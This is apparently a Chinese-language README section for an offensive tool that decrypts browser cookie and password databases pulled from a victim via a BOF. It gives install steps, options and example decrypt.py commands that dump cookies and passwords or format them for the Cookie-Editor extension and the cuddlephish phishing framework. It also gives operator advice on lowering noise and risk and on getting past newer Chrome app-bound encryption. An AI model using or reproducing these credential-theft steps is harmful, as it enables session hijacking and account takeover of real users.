 ### Python 解密脚本使用
安装：
```bash
pip3 install -r requirements.txt
```

基本用法：
```bash
python3 decrypt.py -h
```

重要参数：
- `-k/--key`：解密密钥（从 BOF 结果中获取）。
- `-o/--option`：输出/处理选项，支持 `cookies`、`passwords`、`cookie-editor`、`cuddlephish`、`firefox`。
- `-f/--file`：数据库文件位置（如 `ChromeCookies.db`、`ChromePasswords.db`）。
- `--chrome-aes-key`：可选，提供 Chrome AES Key，适配新版本解密流程（如 v20+/137+）。

常见示例：
```bash
# 文本输出 Cookies
python3 decrypt.py -k "\xec\xfc...." -o cookies -f ChromeCookies.db

# 文本输出 Passwords
python3 decrypt.py -k "\xec\xfc...." -o passwords -f ChromePasswords.db

# 生成 Cookie-Editor 插件可导入的 JSON
python3 decrypt.py -k "\xec\xfc...." -o cookie-editor -f ChromeCookies.db

# 提供 Chrome AES Key（适配 v20+/137+），输出 cuddlephish 所需 JSON
python3 decrypt.py --chrome-aes-key '\x8e\....' -k "\x03\...." -o cuddlephish -f ChromeCookies.db
```

输出示例（精简）：
```text
Host: .github.com
Path: /
Name: dotcom_user
Cookie: KingOfTheNOPs
Expires: Oct 28 2024 21:25:22
```

### 常见场景建议
- 仅需 Cookies：`--cookie-only` 可避免不必要的数据拉取，降低噪声与风险。
- 已知持句柄进程：优先使用 `--*PID` 精确参数，减少扫描与失败概率。
- 目标较新 Chrome/Edge：优先尝试 `--system` 并准备好 `Local State` 路径与有效用户进程 PID。
- 需要导入到浏览器插件或配合钓鱼框架：使用 `-o cookie-editor` 或 `-o cuddlephish`。

### 故障排查（Troubleshooting）
- 提示 `NO OPTIONS SELECTED`：未提供任何模式参数，请至少选择 `--chrome/--edge/--system/--firefox` 或 `--*PID`。
- `Invalid PID`：PID 非数字或为 `1`；请提供正确的用户进程 PID。
- `--key-only` 组合报错：与 `--cookie-only`/`--login-data-only`/`--copy-file` 互斥，选择其一。
- 无法获取 app bound key：
  - 确认运行目录与浏览器应用目录关系（对 v20+ 重要）；
  - 或切换到 `--system` 模式并提供正确 `Local State` 路径与 PID；
  - 如为 Chrome 137+，请结合 `--chrome-aes-key` 在解密脚本中处理。
- 解密脚本报依赖问题：重新执行 `pip3 install -r requirements.txt`，确保 Python 版本与架构匹配。
